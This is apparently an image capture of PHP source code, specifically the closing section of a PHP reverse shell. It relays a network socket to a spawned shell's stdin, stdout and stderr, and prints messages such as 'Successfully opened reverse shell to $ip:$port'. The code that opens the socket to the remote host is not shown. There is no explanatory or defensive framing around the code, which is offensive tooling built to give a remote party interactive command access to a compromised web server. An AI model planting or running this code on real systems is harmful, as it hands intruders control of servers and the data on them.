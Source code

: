 ```php
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
